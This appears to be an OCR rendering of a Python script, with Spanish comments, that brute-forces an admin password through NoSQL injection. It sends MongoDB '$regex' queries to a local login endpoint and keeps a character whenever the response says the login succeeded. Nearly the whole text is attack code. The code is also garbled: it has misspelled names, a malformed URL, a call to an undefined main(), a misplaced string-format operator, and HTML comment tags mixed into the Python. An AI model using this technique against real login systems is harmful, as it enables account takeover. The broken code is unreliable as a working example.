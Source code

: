 # NoSQLI

from pwn import * <!--# jugar con las barras de progresos-->
import requests <!--#hacer peticiones a servidores-->
import time <!--# tiempos de espera-->
import sys <!--# para poder realizar la salida del progama-->
import signal <!--# para pillar el ctrl_c-->
import string <!--# para declara toos los caracteres que quiero probar-->
 
def saliendo(sig, frame): <!--#capturando el controll c para escapar del programa-->
        print('\n\n[+] Saliendo...\n\n')
        sys.exit(1)

<!--# Capturar control C-->
signal.signal(signal.SIGINT, saliendo) <!--# cuando hagamos ctrl_c mandamos el flujo del progama a la funcion saliendo-->

login_url = "http://localhost:4000user/login"  <!--#url a la que hacer el post-->
caracteres = string.ascii_lowercase + string.asciii_uppercase + string.digits <!-- #caracteres a probar,no metemos simbolos, se puede meter-->

def nosqli():

      password = "" <!--#la creamos vacia para in metiendo los caracteres correctos-->

      p1 = log.progress("Fuerza bruta") <!--# creamos la primera barra de progreso-->
      p1.status( " Iniciando ...")      <!--# la actualizamos-->
      
      time.sleep(2)  <!--# dejamos dos segundos para q lea el usuario-->
      
      p2 = log.progress("Password")   <!--# creamos la segunda barra de progreso--> 
        
      for posicion in range (0,24):  <!--# creamos las iteraciones-->
              for caracter in caracteres:
                      post_data = {"username":"admin","password": {"$regex":"^%s%s"}} % (password,caracter) <!--#lo ponemos en raw , ^%s es que mpieza por algo, por una string -->

                      p1.status(post_data)

                      headers = {'Content-Type': 'application/json'} 
                      
                      respuesta = requsts.post(login_url, headers=headers, data=post_data)
                        
                      if "Logged in as user" in respuesta.text:
                              password += caracter
                              p2.status(password)  
                              break

main()

        nosqli()

